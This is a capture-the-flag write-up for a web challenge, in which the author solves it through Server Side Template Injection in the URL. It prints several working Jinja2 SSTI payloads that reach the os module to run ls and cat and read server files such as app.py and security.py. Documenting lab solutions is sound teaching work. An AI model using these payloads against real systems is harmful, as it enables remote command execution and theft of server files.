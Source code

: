 Challenge: Injection
<br>
Points: 200
<br>
Category: Web
<br>
Objective: Go to the given URL and get the flag
<br>
Process of find the flag: So when I opened up the URL I saw a basic login form, I thought we need to use SQL injection to exploit it, I tried a lot of SQL injections but none of them worked, then I thought maybe XSS injections would work so I tried a lot of XSS injections, this all took me around 1.5 hours to two hours and the result was nothing I did not make any progress at all.
<br>
So after a few hours of rest and a couple of challenges later I came back to it, because one of my friends gave me a hint that its related to Server Side Template Injection(SSTI), so I quickly watched a few YouTube videos to understand how SSTI works.
<br>
After watching the videos I googled ‘SSTI payload cheatsheet’ and found a lot of resources full of SSTI payloads, then I tried all of them in the input field and none of them worked at all, then later on I got to know that I need to add those payloads at the end of the URL and not in the input fields, so I quickly tried a few basic payloads and they seem to be working, so now I just had to find the correct payload.
<br>
I found this payload 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}
```
<br>
What this does is, it imports OS module, and allows us to use OS commands, so when we use ls command we get this 
 

So no we needed to check all the other folders and the app.py file.
I did check app.py by 
```
{{config.__class__.__init__.__globals__['os'].popen('cat app.py').read()}}
```
But I didn’t get the result that I wanted.

So I tried to list all the items in the lib directory, and this could be done by 
```
{{config.__class__.__init__.__globals__['os'].popen('ls /app/lib').read()}}
```
This directory had a file named as security.py
 

So now I had to check what was inside security.py
```
{{config.__class__.__init__.__globals__['os'].popen('cat /app/lib/security.py').read()}}
```
I found something really helpful.
<br>
This is the flag, but its encrypted, so now I just had to decrypt it.
<br>
I couldn’t decrypt it due to my bad cryptography skills, so my teammate did it.
To decrypt it you just had to flip the string backwords and then decrypt it using base64.
This is the reversed string
 
The flag: dctf{4ll_us3r_1nput_1s_3v1l}
<br><br><br>
The tool that I used in this challenge is Postman(https://www.postman.com/)
